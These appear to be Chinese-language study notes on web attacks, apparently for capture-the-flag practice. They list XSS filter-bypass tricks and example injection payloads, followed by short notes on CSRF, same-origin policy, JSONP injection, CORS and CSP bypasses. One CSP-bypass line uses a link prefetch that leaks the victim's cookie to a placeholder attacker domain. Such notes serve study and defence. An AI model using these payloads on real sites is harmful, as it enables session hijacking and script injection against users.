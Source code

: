  - 放到了行注释里 %0a换行
 - 两个输入拼接 第一个末尾用\转义双引号 第二个后面可用//注释 `...="..."+"&ss=aaa\"+"&from==1;function/**/from(){}//"`（js函数可先调用后申明） (sql注入也可以)
 - 宽字节 "被转义\" 前面加高字节如%0c 或再加\转义\
 - js支持多行字符串 末尾加\ gb2312时加%c0吃掉转义符
 - 无回显 eval("")会返回计算string得到的值 （json解析时经常用到,返回对象（要加圆括号将json转成语句）） 最后加\在console看error找到关键代码 ?key;alert(1);//=aaa
 - chrome会对"/>/<进行URL转换
 - setTimeout函数 '被转义 用js编码 阻止跳转：用字符串.replace替换成自己的外部js攻击
 - 无法闭合" 可以直接闭合`</script>`
 - iframe inload src=javascript:/data: srcdoc
 - 自带htmlencode的标签...

例题
`"^alert(1)^"`(在if里会先执行)
```
if(""^alert(1)^""!="null"){
   document.getElementById('test').innerHTML=""^alert(1)^"";
    }
```
`*///1"!="null"){alert(1);/*`（多行注释和单行注释配合使用）
```
if("*///1"!="null"){alert(1);/*"!="null"){
   document.getElementById('test').innerHTML="*///1"!="null"){alert(1);/*";
    }
```
## CSRF
登录a生成cookie->不登出a时访问危险网站b
上传文件 BP会自动生成CSRF Poc
## 域、同源策略、CORS、JSONP
同源：协议、域名、端口（默认80）相同
非同源：cookie/LocalStorage/IndexDB无法读取 DOM无法获得 AJAX请求不能发送
二级域名相同（父子、兄弟域）允许通过设置document.domain共享cookie
跨域请求 JSONP WebSoket CORS
JSONP注入 通过添加一个`<script>`元素，通过src属性向服务器请求json数据，服务器将数据放在一个指定名字的回调函数返回 foo({"ip":"8.8.8.8"}) 不造是啥但能执行 callback/jsonp/...=.（函数名）..的API
防御：校验referer（但可从HTTPS向http发请求或在src中用data:base64）
callback=alert(1);//有反射型注入
CORS 允许浏览器向不同源服务器发出任何请求 
简单请求 head/get/post 
加origin头 如果可以会回acess-control-allow-origin等
双方withCredentials:true且acess-control-allow-origin不为*才能接受cookie
预检请求
//0ctf xss
## CSP
配置 header头 Content-Security-Policy:defalt-src 'self';...
指令
html5有预加载
bypass:
firefox `<link rel="dns-fetch" herf="[cookie].xss.com">`
chrome `<link rel="prefetch" herf="xss平台">`
window.location="地址"
jsonp绕过
反射或符号执行
重定向绕过
